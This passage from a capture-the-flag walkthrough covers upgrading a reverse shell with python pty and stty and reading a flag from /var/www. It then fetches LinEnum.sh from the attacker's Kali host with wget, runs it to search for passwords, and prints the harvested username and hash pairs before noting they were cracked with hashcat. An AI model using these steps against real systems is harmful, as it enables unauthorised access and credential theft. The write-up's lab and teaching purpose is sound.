 2. Step two is:
 `export TERM=xterm` – this will give us access to term commands such as clear.


3. Finally (and most importantly) we will background the shell using `Ctrl + Z.` Back in our own terminal we use `stty raw -echo; fg`.This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
^Z
stty raw -echo; fg
```
With that out of the way, let's find the **first** flag! 
We CD into the /var/www directory, list the files and cat out the contents of flag_1.txt:

```bash
/var/www
total 16K
drwxr-xr-x  3 root     root     4.0K Jan 31 14:30 .
drwxr-xr-x 15 root     root     4.0K Jan 30 16:07 ..
-rw-r--r--  1 root     root       33 Jan 31 14:30 flag_1.txt
drwxr-xr-x 11 www-data www-data 4.0K Jan 31 14:40 html                                                                                         
```


## More Enumeration

### LinEnum.sh

Time to enumerate some more and hope we find the user credentials stored somewhere.

We host LinEnum.sh on our kali instance and tell the script to search for the keyword "password".

```bash
python3 -m http.server 8000
wget http://kali.ip:8000/LinEnum.sh
chmod +x LinEnum.sh

./LinEnum.sh -s -k password -r report -e /tmp/ -t
cat report-07-07-21 | grep erik
cat report-07-07-21 | grep thomas
```

```bash
<?php/*|[{"username":"thomas","password":"b75677223a845cc865d39aa8ae243c95ab7d3b37","project":"\/var\/www\/html\/my_code"},{"username":"admin","password":"90b9aa7e25f80cf4f64e990b78a9fc5ebd6cecad","project":"\/var\/www\/html\/my_code"},{"username":"erik","password":"7386ab8085e52a2b9baa407c21ff44fc2e23da21","project":"\/var\/www\/html\/my_code"}]|*/?>$ 
```

Looks like we have some hashed passwords :).
We can crack this easily with hashcat and the rockyou wordlist. The hashes are recognized as "sha1(md5$pass)".
We get two passwords.
